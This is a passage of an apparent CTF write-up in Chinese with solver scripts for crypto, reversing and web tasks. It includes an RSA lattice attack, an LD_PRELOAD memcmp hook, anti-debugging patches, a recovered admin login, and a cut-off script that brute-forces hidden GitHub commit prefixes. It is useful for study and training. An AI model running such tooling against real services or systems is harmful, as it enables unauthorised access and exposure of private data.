# 第八届“强网”拟态防御国际精英挑战赛-线上预选赛 writeup-先知社区

> **来源**: https://xz.aliyun.com/news/19243  
> **文章ID**: 19243

---

# blockchain

前端打包部署后通常会挂在 /WeBASE-Front/路径下  
WeBASE 是一个区块链可视化管理前端项目的官方名字。  
猜测直接在URL后面加/WeBASE-Front/

  
这里有个输入值

尝试0  
好像没什么用：



尝试 1  
有个Input

  
尝试解密：  
这是一次对 SystemConfigPrecompiled（地址 0x000...1000 ）的调用，方法是 setValueByKey(string key, string value) ，把系统配置项 tx\_count\_limit 设为 "2" 。

尝试 2

  
对input进行 ABI 解码：

```
INPUT_HEX = """0x6080604052600a60015534801561001557600080fd5b50604051610b61380380610b6183398101806040528101908080518201929190505050604051806000019050604051809103902060001916816040518082805190602001908083835b602083101515610083578051825260208201915060208101905060208303925061005e565b6001836020036101000a0380198251168184511680821785525050505050509050019150506040518091039020600019161415151561012a576040517f08c379a000000000000000000000000000000000000000000000000000000000815260040180806020018281038260108152602001807f706c6561736520696e707574206b65790000000000000000000000000000000081525060200191505060405180910390fd5b600080819055508060049080519060200190610147929190610169565b506000600560006101000a81548160ff0219169083151502179055505061020e565b828054600181600116156101000203166002900490600052602060002090601f016020900481019282601f106101aa57805160ff19168380011785556101d8565b828001600101855582156101d8579182015b828111156101d75782518255916020019190600101906101bc565b5b5090506101e591906101e9565b5090565b61020b91905b808211156102075760008160009055506001016101ef565b5090565b90565b6109448061021d6000396000f300608060405260043610610057576000357c0100000000000000000000000000000000000000000000000000000000900463ffffffff1680631d263f671461005c578063e6f334d71461010f578063fc735e991461013a575b600080fd5b34801561006857600080fd5b50610089600480360381019080803515159060200190929190505050610204565b604051808315151515815260200180602001828103825283818151815260200191508051906020019080838360005b838110156100d35780820151818401526020810190506100b8565b50505050905090810190601f1680156101005780820380516001836020036101000a031916815260200191505b5093505050506040518091030f35b34801561011b57600080fd5b506101246106dd565b6040518082815260200191505060405180910390f35b34801561014657600080fd5b5061014f6106e3565b604051808473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16815260200183815260200180602001828103825283818151815260200191508051906020019080838360005b838110156101c75780820151818401526020810190506101ac565b50505050905090810190601f1680156101f45780820380516001836020036101000a031916815260200191505b5094505050505060405180910390f35b6000606060008060003273ffffffffffffffffffffffffffffffffffffffff163373ffffffffffffffffffffffffffffffffffffffff161415156102b0576040517f08c379a000000000000000000000000000000000000000000000000000000000815260040180806020018281038260088152602001807f6f6e6c7920454f4100000000000000000000000000000000000000000000000081525060200191505060405180910390fd5b60001515600560009054906101000a900460ff16151514151561033b576040517f08c379a0000000000000000000000000000000000000000000000000000000008152600401808060200182810382600b8152602001807f47616d65206f76657221210000000000000000000000000000000000000000000081525060200191505060405180910390fd5b6003546040518082815260200191505060405180910399024260014303404432604051808273ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff166c01000000000000000000000000028152601401915050604051809103902033604051808273ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff166c01000000000000000000000000028152601401915050604051809103902060405160200180876000191660001916815260200186815260200185600019166000191681526020018481526020018360001916600019168152602001826000191660001916815260200196505050505050506040516020818303038152906040526040518082805190602001908083835b602083101515610493578051825260208201915060208101905060208303925061046e565b6001836020036101000a03801982511681845116808217855250505050505090500191505060405180910390206001900492508260035414156104d557600080fd5b826003819055506002838115156104e857fe5b069150600182146104fa5760006104fd565b60015b905085151581151514156106b6576000808154809291906001019190505550600154600054141561069a5733600260006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff1602179055507f1d0f573e4e195aa433579f5b1775ed39429a496c5fed0e5f69dec8a4af879add33600154604051808373ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1681526020018281526020019250505060405180910390a16001600560006101000a81548160ff02191690831515021790555060016004808054600181600116156101000203166002900480601f01602080910402602001604051908101604052809291908181526020018280546001816001161561010002031660029004801561068a5780601f1061065f5761010080835404028352916020019161068a565b820191906000526020600020905b81548152906001019060200180831161066d57829003601f168201915b50505050509050945094506106d5565b60016020604051908101604052806000815250945094506106d5565b6000808190555060006020604051908101604052806000815250945094505b505050915091565b60005481565b6000806060011515600560009054906101000a900460ff161515141515610773576040517f08c379a000000000000000000000000000000000000000000000000000000000815260040180806020018281038260108152602001807f47616d65206973206e6f74206f766572000000000000000000000000000000000081525060200191505060405180910390fd5b6001546000541480156107d55750600073ffffffffffffffffffffffffffffffffffffffff16600260009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1614155b1515610849576040517f08c379a000000000000000000000000000000000000000000000000000000000815260040180806020018281038260098152602001807f6e6f2077696e6e657200000000000000000000000000000000000000000000000081525060200191505060405180910390fd5b600260009054906101000a900473ffffffffffffffffffffffffffffffffffffffff16600154600480805460018160011615610100020303166002900480601f0160208091040260200160405190810160405280929190818152602001828054600181600116156101000203166002900480156109065780601f106108db57610100808354040283529160200191610906565b820191906000526020600020905b8154815290600101906020018083116108e957829003601f168201915b505050505090509250925092509091925600a165627a7a723058202b0c5cdca2c52095061bef9455847ce9738858881d35f11b648ad3fffd30f46a00290000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000014b62756971687276696c4877696764436c42756954756364755a6e586d724c6f486c6569656767626177736773676341796146656b6871576d417671546f6377684275696941526679757265726779684e707277655063486375726d51736d476d716f70697264686c6961577064527749766852706871674e70726f69426747657642615277667379696669416c5276517076676c776673656d4c5165427a7377706e726b6862776d694173586b63466a577672586c4c7475446256736952767969715374576763487773786c4c7171696c7266437766436d6d7169576c5077686f6753787579624d7576586d506e634c626e72785063476d697469577a674862576878586b63676651746c786851687869616b69556d744e70726d765063476d69746957656357686f656965677a4d6a57796d786c616f6677656679566762796146766d59797a6d6d476700000000000000000000000000000000000000000000"""

def decode_constructor_single_string(input_hex: str) -> str:
    hx = input_hex[2:] if input_hex.startswith("0x") else input_hex
    data = bytes.fromhex(hx)
    n = len(data)
    for j in range(n - 96, -1, -1):
        word0 = int.from_bytes(data[j:j+32], "big")
        if word0 != 0x20:
            continue
        length = int.from_bytes(data[j+32:j+64], "big")
        end = j + 64 + length
        if end > n or length == 0:
            continue
        pad = (32 - (length % 32)) % 32
        if end + pad > n:
            continue
        if data[end:end+pad] != b"\x00" * pad:
            continue
        try:
            s = data[j+64:end].decode("utf-8")
        except UnicodeDecodeError:
            try:
                s = data[j+64:end].decode("latin-1")
            except Exception:
                continue
        return s
    raise ValueError("No ABI-encoded single-string constructor argument found.")

decoded = decode_constructor_single_string(INPUT_HEX)
print(decoded)

#buiqhrvilHwigdClBuiTucduZnXmrLoHleieggbawsgsgcAyaFekhqWmAvqTocwhBuiiARfyurergyhNprwePcHcurmQsmGmqopirdhliaWpdRwIvhRphqgNproiBgGevBaRwfsyifiAlRvQpvglwfsemLQeBzswpnrkhbwmiAsXkcFjWvrXlLtuDbVsiRvyiqStWgcHwsxlLqqilrfCwfCmmqiWlPwhogSxuybMuvXmPncLbnrxPcGmitiWzgHbWhxXkcgfQtlxhQhxiakiUmtNprmvPcGmitiWecWhoeiegzMjWymxlaofwefyVgbyaFvmYyzmmGg
```

得到：  
`buiqhrvilHwigdClBuiTucduZnXmrLoHleieggbawsgsgcAyaFekhqWmAvqTocwhBuiiARfyurergyhNprwePcHcurmQsmGmqopirdhliaWpdRwIvhRphqgNproiBgGevBaRwfsyifiAlRvQpvglwfsemLQeBzswpnrkhbwmiAsXkcFjWvrXlLtuDbVsiRvyiqStWgcHwsxlLqqilrfCwfCmmqiWlPwhogSxuybMuvXmPncLbnrxPcGmitiWzgHbWhxXkcgfQtlxhQhxiakiUmtNprmvPcGmitiWecWhoeiegzMjWymxlaofwefyVgbyaFvmYyzmmGg`

根据题目提示尝试维吉尼亚  
  
得到密钥：ineedyou

所以`flag{ineedyou}`

​

# Unsafe Parameters

参考这篇论文:

ijeie-2017-v7-n2-p79-87.pdf

"共用私钥指数 d 的格攻击"思路做的：对 r=3 的多素数 RSA、n=5 组公钥，取 M≈N²/³ 构造 (n+1) 维格并用 LLL 找到含有 dM 的最短向量恢复 d（Hinek/Ravva 的方法）；随后用 mi=eid−1（它是 λ(Ni) 的倍数）做 Miller 型因式分解把每个 Ni 拆成 3 个素数；把五组素数全部求和，按题目脚本的规则做 SHA3-512(str(sum)).digest()[:16] 得到 AES-ECB 密钥，解出密文即上面的 flag。

原理：0) 场景回放（来自题面脚本）  
task.py 简述：  
生成 5 组三素数模数 Ni=piqiri（因为 for 循环遍历 'flag{' ，共 5 次；每次 512 位素数），统一选定同一个 425-bit 的私钥指数 d，并对每个模数用 φ(Ni)=(pi−1)(qi−1)(ri−1) 求 ei≡d⁻¹(mod φ(Ni))。task 最后把所有素数的和参与派生 AES-128 密钥：key = sha3\_512(str(sum of all primes)).digest()[:16]，再用 AES-ECB 加密 flag 得到 ct。task 这就给了我们全部公开信息：多组 (Ni,ei) 与密文 ct，而漏洞根源是所有实例共用同一个 d。

1. 关键等式与"短向量"目标  
   对每一组公钥 (Ni,ei)，有 RSA 关键等式 eid = 1 + ki⋅φ(Ni) 其中 ki∈Z。对三素数模数，φ(Ni)=Ni−si，这里 si=(pi+qi+ri)−1 规模约为 Ni¹⁻¹/ʳ=Ni²/³（因为 r=3）。把式子改写成 eid−Niki = 1−kisi (右边是"很小"的量)
2. 选缩放量 M 并构造格  
   对多素数 r=3，合适的缩放量应与 N¹⁻¹/ʳ=N²/³ 同量级。IJEIE-2017 直接给了做法：令 M ≈ N¹⁻¹/ʳ (=N²/³) 并把"dM=dM"与上面每条"eid−Niki=1−kisi"合为矩阵方程 xnBn=vn，把右端"全是小量"的向量 vn 当作目标短向量。

直观理解：我们造一个 (n+1) 维格，基矩阵大致是：

```
B = 
[[N1, 0, 0, 0],
 [0, N2, 0, 0], 
 [0, 0, ⋱, 0],
 [e1, e2, ⋯, -M]]
```

其行整线性组合里存在一个非常短的向量 (1−k1s1, 1−k2s2, …, dM)，因为前 n 个分量都是"小量" 1−kisi，最后一个分量是 dM（量级同样被压到了 N²/³）。这正是 LLL 能抓到的"短向量"。

1. 用 LLL 把 d 从"最短向量"里抠出来  
   把基矩阵 B 丢进 LLL 降维，最短（或非常短）的基向量就会"近似等于"上面的目标短向量，记作 w=(w1,…,wn,wn+1)。由于构造让最后一列是 −M，所以 |wn+1|=M⋅d（或它的整数倍/符号），于是 d = |wn+1|/M。
2. 分解 Ni  
   对任意一组公钥，计算 ki = eid−1。它是 φ(Ni) 或 λ(Ni) 的倍数。对多素数 RSA，即使已知 φ(N) 也不直接等价于"确定性可分解"，但一旦有 φ(N) 的倍数，可以用 Miller 的分解法概率性地把 N 拆开。
3. 复原题目密钥与解密 ct  
   分解出每个实例的 (pi,qi,ri) 后，把所有素数求和，按题目的规则 key = sha3\_512(str(所有素数之和).encode()).digest()[:16] 用 AES-ECB 解 ct，去掉 PKCS#7 填充，得到明文 flag。

```
# -*- coding: utf-8 -*
# solve_common_d.py
# 一键：自动解析 task.py -> 恢复共用 d -> 因式分解 -> 还原 AES-ECB -> 打印 flag

import re, ast, os, sys, random, math
from math import gcd
from hashlib import sha3_512

# ========== 可选依赖后备 ==========
BACKEND = None
IntegerMatrix = None
LLL_reduce = None
SAGE_Matrix = None
SAGE_ZZ = None

try:
    from fpylll import IntegerMatrix as _IM, LLL
    IntegerMatrix = _IM
    def LLL_reduce(B):
        LLL.reduction(B)
        return B
    BACKEND = "fpylll"
except Exception:
    try:
        # 允许在 Sage 环境运行：sage -python solve_common_d.py
        from sage.all import Matrix, ZZ
        SAGE_Matrix, SAGE_ZZ = Matrix, ZZ
        def LLL_reduce(B):
            return B.LLL()
        BACKEND = "sage"
    except Exception:
        BACKEND = None

try:
    from Crypto.Cipher import AES
except Exception:
    print("[!] 缺少 pycryptodome：请先 `pip install pycryptodome`")
    sys.exit(1)

# ========== 工具函数 ==========
def parse_from_task_py(path="task.py"):
    """从 task.py 中抓 ns / es / ct"""
    if not os.path.exists(path):
        return None
    data = open(path, "r", encoding="utf-8", errors="ignore").read()
    # 先找三引号块
    m_block = re.search(r'"""(.*?)"""', data, re.S)
    blocks = [data]
    if m_block:
        blocks.insert(0, m_block.group(1))
    ns = es = ct = None
    for blob in blocks:
        if ns is None:
            m = re.search(r'ns\s*=\s*(\[[^\]]+\])', blob, re.S)
            if m:
                ns = ast.literal_eval(m.group(1))
        if es is None:
            m = re.search(r'es\s*=\s*(\[[^\]]+\])', blob, re.S)
            if m:
                es = ast.literal_eval(m.group(1))
        if ct is None:
            # 匹配 Python bytes 字面量
            m = re.search(r'ct\s*=\s*(b["\'][^"\']*["\'])', blob, re.S)
            if m:
                ct = ast.literal_eval(m.group(1))
        if ns is not None and es is not None and ct is not None:
            break
    if ns and es and ct:
        return ns, es, ct
    return None

def pkcs7_unpad(b):
    if not b:
        return b
    padlen = b[-1]
    if padlen == 0 or padlen > 16:
        return b
    if b.endswith(bytes([padlen]) * padlen):
        return b[:-padlen]
    return b

def is_probable_prime(n, k=16):
    if n < 2:
        return False
    # small primes
    small_primes = [2,3,5,7,11,13,17,19,23,29]
    for p in small_primes:
        if n % p == 0:
            return n == p
    # Miller-Rabin
    d = n - 1
    s = 0
    while d % 2 == 0:
        d //= 2
        s += 1
    for _ in range(k):
        a = random.randrange(2, n - 2)
        x = pow(a, d, n)
        if x == 1 or x == n - 1:
            continue
        good = False
        for __ in range(s - 1):
            x = (x * x) % n
            if x == n - 1:
                good = True
                break
        if not good:
            return False
    return True

def factor_with_k(N, k, trials=64):
    """已知 k = e*d - 1，写成 k = 2^s * r (r 为奇数)，用 Miller 风格分解 N（适用多素数 N）"""
    r = k
    s = 0
    while r % 2 == 0:
        r //= 2
        s += 1
    factors = []
    def split_once(N):
        if is_probable_prime(N):
            return [N]
        for _ in range(trials):
            a = random.randrange(2, N - 2)
            x = pow(a, r, N)
            if x == 1 or x == N - 1:
                continue
            for __ in range(s):
                y = (x * x) % N
                if y == 1:
                    g = gcd(x - 1, N)
                    if 1 < g < N:
                        return [g, N // g]
                    break
                if y == N - 1:
                    break
                x = y
        return None
    stack = [N]
    while stack:
        cur = stack.pop()
        if is_probable_prime(cur):
            factors.append(cur)
            continue
        part = split_once(cur)
        if part is None:
            # 退一步尝试 Pollard Rho，提升稳健性
            def pollard_rho(n):
                if n % 2 == 0:
                    return 2
                while True:
                    c = random.randrange(1, n - 1)
                    f = lambda x: (x * x + c) % n
                    x, y, d = 2, 2, 1
                    while d == 1:
                        x = f(x)
                        y = f(f(y))
                        d = gcd(abs(x - y), n)
                    if d != n:
                        return d
            g = pollard_rho(cur)
            stack.extend([g, cur // g])
        else:
            stack.extend(part)
    return sorted(factors)

def choose_X(ns):
    """LLL 构造中 -X 放在最后一列的对角值。经验取 X ≈ (几何平均N)^(2/3)"""
    t = len(ns)
    # 几何平均
    logsum = sum(math.log(n) for n in ns)/t
    Nbar = math.exp(logsum)
    X0 = int(Nbar ** (2/3))
    return X0

def recover_d_with_LLL(ns, es):
    """Hinek/Santosh 等论文思路：构造 (t+1) 维格"""
    if BACKEND is None:
        print("[!] 需要 fpylll 或 Sage 支持 LLL：")
        print("    方案一：pip install fpylll")
        print("    方案二：用 Sage 运行：   sage -python solve_common_d.py")
        sys.exit(1)
    t = len(ns)
    X0 = choose_X(ns)
    # 多个倍数兜底：不同数据对 X 的"甜点区间"略有不同
    multipliers = [1, 2, 3, 4, 6, 8, 12, 16, 24, 32]
    for mul in multipliers:
        X = X0 * mul
        if BACKEND == "fpylll":
            B = IntegerMatrix(t + 1, t + 1)
            for i in range(t + 1):
                for j in range(t + 1):
                    B[i, j] = 0
            for i in range(t):
                B[i, i] = ns[i]
            for j in range(t):
                B[t, j] = es[j]
            B[t, t] = -X
            B = LLL_reduce(B)
            rows = [[int(B[i, j]) for j in range(t + 1)] for i in range(t + 1)]
        else:  # Sage
            B = SAGE_Matrix(SAGE_ZZ, t + 1, t + 1, 0)
            for i in range(t):
                B[i, i] = SAGE_ZZ(ns[i])
            for j in range(t):
                B[t, j] = SAGE_ZZ(es[j])
            B[t, t] = SAGE_ZZ(-X)
            B = LLL_reduce(B)
            rows = [list(map(int, B[i])) for i in range(t + 1)]
        # 找 "首 t 维无穷范数最小" 的向量
        rows.sort(key=lambda v: max(abs(x) for x in v[:-1]))
        for v in rows[:min(6, len(rows))]:
            last = v[-1]
            if last % X != 0:
                continue
            y0 = abs(last) // X
            # 粗验：至少要有若干 (e_i*y0 - 1) 是偶数
            ok = sum(((es[i] * y0 - 1) % 2 == 0) for i in range(t))
            if ok >= max(2, t // 2):
                return y0
    raise RuntimeError("LLL 未能直接恢复 d；可尝试装 fpylll 或换 Sage 运行，并增大倍数搜索。")

def stable_sum_primes(all_prime_lists):
    # 防止大整数加法顺序误差
    return sum(sum(lst) for lst in all_prime_lists)

def main():
    # 1) 自动解析 task.py
    parsed = parse_from_task_py("task.py")
    if parsed:
        ns, es, ct = parsed
        print(f"[+] 读取到 ns/es/ct： t = {len(ns)}, ct_len = {len(ct)}")
    else:
        # 2) 手动在这里粘贴（如果自动解析失败）
        # == 把你的 ns/es/ct 粘到下面三行里 ==
        ns = []  # e.g. [int1, int2, ...]
        es = []  # e.g. [int1, int2, ...]
        ct = b"" # e.g. b"..."
        if not ns or not es or not ct:
            print("[!] 没有找到 ns/es/ct。请把 solve_common_d.py 放到含有 task.py 的目录再运行，或手动在脚本里粘贴数据。")
            sys.exit(1)
    assert len(ns) == len(es) >= 3, "至少需要 3 组 (N,e)"
    t = len(ns)
    # 2) 用 LLL 恢复公用 d
    print("[*] 执行 LLL 恢复共用 d ... (backend:", BACKEND, ")")
    d = recover_d_with_LLL(ns, es)
    print("[+] d 恢复成功，bits =", d.bit_length())
    # 3) 用 k_i = e_i*d - 1 分解每个 N_i
    all_primes = []
    for i, (N, e) in enumerate(zip(ns, es), 1):
        print(f"[*] 分解第 {i}/{t} 个 N ...")
        k = e * d - 1
        facs = factor_with_k(N, k)
        prod = 1
        for p in facs:
            prod *= p
        if prod != N:
            # 兜底再试一次（随机性原因）
            facs = factor_with_k(N, k, trials=128)
            prod = 1
            for p in facs:
                prod *= p
            assert prod == N, f"分解失败：第 {i} 个 N"
        print(f"    - 因子数：{len(facs)}，素数性校验：{all(is_probable_prime(x) for x in facs)}")
        all_primes.append(facs)
    # 4) 组装 AES key 并解密
    total_sum = stable_sum_primes(all_primes)
    key = sha3_512(str(total_sum).encode()).digest()[:16]
    pt = AES.new(key, AES.MODE_ECB).decrypt(ct)
    pt = pkcs7_unpad(pt)
    try:
        s = pt.decode('utf-8', errors='ignore')
    except Exception:
        s = repr(pt)
    print("[+] flag =", s)

if __name__ == "__main__":
    main()
```

# EZMiniAPP



拿到一个wxapkg文件

原本以为需要解密解包，尝试了很长时间，结果记事本直接打开就行  




密钥是`newKey2025!`

`onCheck()` 会取输入框内容 a，调用：`customEncrypt(a, t)` 只是把参数转给：`enigmaticTransformation(a, t)`，它最后把结果（字节数组）与这串固定数组做compare：

```
[1,33,194,133,195,102,232,104,200,14,8,163,131,71,68,97,2,76,72,171,74,106,225,1,65]
```

逆向解密：

```
cipher = [1,33,194,133,195,102,232,104,200,14,8,163,131,71,68,97,2,76,72,171,74,106,225,1,65]
key = "newKey2025!"

c = sum(map(ord, key)) % 8  # = 5

def ror(x, k):  # 8位右旋
    return ((x >> k) | ((x << (8 - k)) & 0xFF)) & 0xFF

pt = []
for idx, b in enumerate(cipher):
    u = ror(b, c)                 # 先右旋5位
    pb = u ^ ord(key[idx % len(key)])  # 再 XOR 密钥
    pt.append(pb)

print(bytes(pt).decode("utf-8"))
#flag{JustEasyMiniProgram}
```

# Icall

Die:



很奇怪，前面下断点调试不了，但尝试了很多次在这里可以下断点：`sub_00402000` 的初始化阶段，通过 `sub_00403470/004035E0/00403750` 中包含"TracerPid:" 动态观测时，`strlen`，随后读取 `/proc/self/status` 等分块 XOR 还原出若干常量，其执行反调试检测。用 `LD_PRELOAD` 钩住 `strlen/memcmp` 的实参出现了十六进制 `54 72 61 63 65 72 50 69 64 3a`（即"TracerPid:"）

所以后面的RC4有个交换模块也能解释



这里有混淆：



还是能看出RC4

利用网站反编译也能看出RC4，但是魔改后的：

* KSA：基本就是标准 RC4（S[i] 初始化 + j 累加 + 交换）
* PRGA：每产出一个字节前，会做 rounds 次"预热迭代"后拿到 keystream 输出再做一个反馈（像 CBC）：  
  `Y[i] = M[i] ⊕ KS[i] ⊕ prev(i), prev(0)=S[0], prev(i+1)=Y[i]`  
  其中 `M=F(plain)`

后面尝试用在线网站进行反编译：



发现有个仿射

对字母进行 `7 * a + 11` 的数学转换，在ida中的反编译也验证了这一点



后面准备动态利用这些静态获取的信息：把输入刷成同一个字符 ch 时，仿射后恒为 A = F(ch)，该次运行得到的输出记作 Y\_A。加密关系是 `Y[i]=M[i]⊕KS[i]⊕prev(i)`，因此在这次运行里有 `KS[i]⊕prev(i)=YA[i]⊕A`。程序实际与常量缓冲 C[i] 比较，所以目标路径上的仿射明文满足 `M[i]=C[i]⊕(YA[i]⊕A)`。最后对 M[i] 应用仿射逆映射 F⁻¹ 就还原出真实明文。

因为无法调试，我们进行Hook:

```
#define _GNU_SOURCE
#include <dlfcn.h>
#include <stdint.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>

static int (*real_memcmp)(const void*, const void*, size_t);
static int fd = -1;

static void bin_write(const void* p, size_t n){
    if(fd >= 0) { write(fd, p, n); }
}

__attribute__((constructor))
static void init_hook(void){
    real_memcmp = dlsym(RTLD_NEXT, "memcmp");
    fd = open("/dev/shm/mc.bin", O_CREAT|O_WRONLY|O_TRUNC, 0644);
}

__attribute__((destructor))
static void fini_hook(void){
    if(fd >= 0) close(fd);
}

int memcmp(const void* a, const void* b, size_t n){
    if(!real_memcmp) real_memcmp = dlsym(RTLD_NEXT, "memcmp");
    // 只记录"像样长度"的比较，避免噪声；题里最终那次长度 ~30
    if(n >= 16 && n <= 256){
        // 记录格式: [tag=0xAB][uint32 n][n bytes a][n bytes b]
        unsigned char tag = 0xAB;
        uint32_t len = (uint32_t)n;
        bin_write(&tag, 1);
        bin_write(&len, 4);
        bin_write(a, n);
        bin_write(b, n);
    }
    return real_memcmp(a, b, n);
}
```

用gcc进行编译

```
#!/usr/bin/env python3
import os, sys, struct, subprocess

TARGET = os.path.abspath(sys.argv[1])     # 你的 ELF
HOOK   = os.path.abspath(sys.argv[2])     # hook.so
LOG    = "/dev/shm/mc.bin"
N      = 30                               # 目标长度，若不确定可以从日志里取最大一次

# 通用仿射与逆
def aff(c, base, m, a=7, b=11):
    v = c - base
    return ((a * v + b) % m) + base

def inv_aff(c, base, m, a=7, b=11):
    ainv = pow(a, -1, m)      # Python 3.8+ 支持模逆
    v = c - base
    return ((ainv * (v - (b % m))) % m) + base

def F(x):
    if 48 <= x <= 57:  return aff(x, 48, 10)
    if 65 <= x <= 90:  return aff(x, 65, 26)
    if 97 <= x <= 122: return aff(x, 97, 26)
    return x

def Finv(x):
    if 48 <= x <= 57:  return inv_aff(x, 48, 10)
    if 65 <= x <= 90:  return inv_aff(x, 65, 26)
    if 97 <= x <= 122: return inv_aff(x, 97, 26)
    return x

def run_once(inp: bytes):
    try: os.remove(LOG)
    except FileNotFoundError: pass
    env = os.environ.copy()
    env["LD_PRELOAD"] = HOOK
    subprocess.run([TARGET], input=inp, stdout=subprocess.DEVNULL,
                   stderr=subprocess.DEVNULL, timeout=3, env=env)
    # 解析最后一条记录（长度最大的那条）
    data = open(LOG, "rb").read()
    i = 0
    best = (0, None, None)
    while i < len(data):
        if data[i] != 0xAB: break
        i += 1
        n = struct.unpack("<I", data[i:i+4])[0]; i += 4
        a = data[i:i+n]; i += n
        b = data[i:i+n]; i += n
        if n > best[0]:
            best = (n, a, b)
    if best[1] is None:
        raise RuntimeError("no memcmp record parsed")
    return best  # (n, a, b)

def pick_const_side(a1,b1,a2,b2):
    # 哪一侧在两次运行中保持不变，就是常量 C
    if a1 == a2 and b1 != b2: return (a1, b1)   # C = a, Y = b
    if b1 == b2 and a1 != a2: return (b1, a1)   # C = b, Y = a
    # 都变 or 都不变，退化：默认把"更像 ASCII"的那侧当 C
    scoreA = sum(32 <= x < 127 for x in a1)
    scoreB = sum(32 <= x < 127 for x in b1)
    return (a1, b1) if scoreA >= scoreB else (b1, a1)

def main():
    base_ch = ord('Z')        # 固定"探测字符"
    A = F(base_ch)
    # 第一次和第二次运行，用不同填充值来区分常量/动态两侧
    n1, a1, b1 = run_once(bytes([base_ch])*N + b"
")
    n2, a2, b2 = run_once(bytes([base_ch-1])*N + b"
")
    assert n1 == n2 >= N
    C, Y = pick_const_side(a1,b1,a2,b2)  # C=常量密文，Y=这次运行的输出
    
    # 逐位恢复：前缀随时替换成已还原明文，以维持反馈一致
    guess = bytearray([base_ch]*N + [10])        # 末尾 '
'
    plain = bytearray(N)
    for i in range(N):
        _, yA, yB = run_once(guess)  # 重新跑一次，拿到这次的 Y
        # 再次判定哪边是常量 C，防止记录顺序变化
        CA, YA = pick_const_side(a1,b1,a2,b2) if i==0 else pick_const_side(yA, yB, yA, yB)
        C_now = CA   # 本次常量
        Y_now = YA   # 本次动态输出（对应我们当前输入）
        M_i = C_now[i] ^ Y_now[i] ^ A
        ch  = Finv(M_i)
        plain[i] = ch
        guess[i] = ch  # 固定前缀，维持反馈
    print(plain.decode("utf-8", errors="replace"))

if __name__ == "__main__":
    if len(sys.argv) < 3:
        print(f"usage: {sys.argv[0]} ./Icall ./hook.so")
        sys.exit(1)
    main()
```



得到flag是：`flag{r0uNd_Rc4_Aff1neEnc1yp7!}`

# HyperJump



在这里下断点，发现每次比较的字节是单个字节一次加密然后和密文对应位置对比，不受前后字节的影响，那么我们已知flag头，只需要试出来18位。

下面就是连接linux远程调试然后试常见的可见字符，需要先过反调试



这里绕过这个if判断，让它进if条件里，就绕过了反调。

然后每次密文比较这里



可以把jnz改为jz，这样出错的情况下就能正常不退出提高手动爆破效率，由于在固定位置，所以从全一个数到全另一个数（先试了数字和小写字母发现大部分都匹配上了）这样会被转移到另一个分支的就是其实正确的字节，这时就能知道在这个位置上是什么正确的字节。

​

比如试验222222222222，发现在倒数第二位跳转到对分支，那么flag最后一个字节就是2，逐一这样试出来每个位置得到完整flag.

​

经过漫长尝试最终试验出来flag为`flag{m4z3d\_vm\_jump5\_\_42}`

​

再校验一下md5发现是对的，应该没有遇到可能多解的情况？

# Ciallo\_Encrypt

日志界面发现base64



  
去github搜作者  
<https://github.com/Yu2ul0ver/Ciallo_Encrypt0r/forks>



在分支里面发现app.py和评论

  
在他的历史记录里发现账密是邮箱和项目名md5



这个登录页是题目 Ciallo Crypto 的后台，信息里有几个关键提示：

* admin账号邮箱为qq邮箱（数字@qq.com）
* 密码为 md5(仓库名)



<https://github.com/Yu2ul0ver/Ciallo_Encrypt0r/commit/f83be9eec44f558a404e093b3e67fdc43a9ed1d0>

故能进入admin  
账号：[&#x33;&#x35;&#x31;&#x37;&#x35;&#48;&#56;&#53;&#x37;&#48;&#x40;&#113;&#x71;&#x2e;&#99;&#x6f;&#x6d;](mailto:&#x33;&#x35;&#x31;&#x37;&#x35;&#48;&#56;&#53;&#x37;&#48;&#x40;&#113;&#x71;&#x2e;&#99;&#x6f;&#x6d;)  
密码：f42e16b836b22e83fd3818b603c75dc6

登陆进去只有自己的加密记录和被加密的flag



剩下的要去fork的私人仓库里面拿进一步信息，但私人仓库没有办法直接拿到，因此想到了可能在private仓库里面有commit，只不过没有并到主仓库。

发现 <https://github.com/Yu2ul0ver/Ciallo_Encrypt0r/commit/f83be9ee> 和 <https://github.com/Yu2ul0ver/Ciallo_Encrypt0r/commit/f83b> 都是同一个页面，（最短四位）

故要爆破私人仓库

附上脚本：

```
#!/usr/bin/env python3
"""
gh_commit_bruteforce.py
Brute-force short commit SHA prefixes on GitHub by checking
https://github.com/<owner>/<repo>/commit/<prefix>
Usage:
python gh_commit_bruteforce.py --owner Yu2ul0ver --repo Ciallo_Encrypt0r --length 4 --workers 8 --sleep 0.05 --out found.txt
Notes:
- Be polite: reduce workers and increase --sleep to avoid rate limiting.
- You can provide --start and --end to brute a sub-range of hex space for resuming.
"""
import argparse
import itertools
import string
import time
import sys
import requests
from concurrent.futures import ThreadPoolExecutor, as_completed
from pathlib import Path

HEX_CHARS = '0123456789abcdef'

def gen_prefixes(length: int, start: str = None, end: str = None):
    """Generate hex prefixes of given length in lexicographic order."""
    if start is None and end is None:
        for comb in itertools.product(HEX_CHARS, repeat=length):
            yield ''.join(comb)
    else:
        def to_int(s):
            return int(s, 16)
        full_start = start.zfill(length) if start else '0' * length
        full_end = end.zfill(length) if end else 'f' * length
        s_i = to_int(full_start)
        e_i = to_int(full_end) + 1
        for i in range(s_i, e_i):
            yield f"{i:0{length}x}"

def check_prefix(session: requests.Session, base_url: str, prefix: str, timeout=8):
    """Return tuple(prefix, status_code, final_url). Does a GET with session."""
    url = f"{base_url}/commit/{prefix}"
    try:
        r = session.head(url, allow_redirects=True, timeout=timeout)
        code = r.status_code
        if code in (200, 301, 302):
            return (prefix, code, r.url)
        if code == 405:
            r = session.get(url, allow_redirects=True, timeout=timeout)
            return (prefix, r.status_code, r.url)
        return (prefix, code, r.url)
    except requests.RequestException as e:
        return (prefix, None, str(e))

def worker_task(prefixes, base_url, sleep_per_request, user_agent, timeout, retry):
    """Worker generator checking prefixes sequentially"""
    s = requests.Session()
    s.headers.update({"User-Agent": user_agent})
    s.trust_env = False
    results = []
    for pref in prefixes:
        attempt = 0
        while True:
            attempt += 1
            pref, code, info = check_prefix(s, base_url, pref, timeout=timeout)
            if code is not None:
